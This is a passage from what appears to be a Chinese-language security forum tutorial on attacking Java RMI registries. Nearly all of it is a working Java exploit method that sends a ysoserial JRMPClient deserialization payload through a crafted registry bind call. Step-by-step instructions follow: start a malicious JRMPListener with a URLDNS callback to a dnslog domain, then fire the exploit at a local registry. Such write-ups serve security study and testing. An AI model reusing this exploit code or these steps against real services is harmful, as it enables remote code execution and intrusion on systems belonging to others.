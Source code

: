 ```java

    public static void exp1(String host,int port, String evilServer) throws Exception{
        Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

        LiveRef liveRef =
            new LiveRef(new ObjID(ObjID.REGISTRY_ID),
                new TCPEndpoint(host, port, null, null),
                false);
        UnicastRef unicastRef = new UnicastRef(liveRef);

        ysoserial.payloads.JRMPClient jrmpClient = new ysoserial.payloads.JRMPClient();
        RemoteObjectInvocationHandler remoteObjectInvocationHandler = jrmpClient.getRemoteObjectInvocationHandler(evilServer);
        Remote r = (Remote) Proxy.newProxyInstance(
            Remote.class.getClassLoader(),
            new Class[]{Remote.class},
            remoteObjectInvocationHandler
        );

        RemoteStub remoteStubTmp = new RemoteStubTmp();
        RemoteCall remoteCall = unicastRef.newCall(remoteStubTmp, operations, 2, 4905912898345647071L);

        try {
            ObjectOutput var3 = remoteCall.getOutputStream();
            var3.writeObject(r);
        } catch (IOException var17) {
            throw new MarshalException("error marshalling arguments", var17);
        }
        unicastRef.invoke(remoteCall);
    }
}
```

**操作流程:**

1. 使用 ysoserial 的 `exploit/JRMPListener` 开启恶意RMI Server。参数输入为 `7771 URLDNS http://pipi.7z0fpi.dnslog.cn`

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-3b39d138cfcd03683b3b873daee0fc57c0e1fab8.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-3b39d138cfcd03683b3b873daee0fc57c0e1fab8.png)

2. 开启服务端的RMI Server
3. 利用刚刚编写的exp对普通服务端发起攻击请求。参数输入为 `127.0.0.1 1099 127.0.0.1:7771`

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-93c275ea407d86d52251ffe4d9e51f6d9d8ed596.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-93c275ea407d86d52251ffe4d9e51f6d9d8ed596.png)
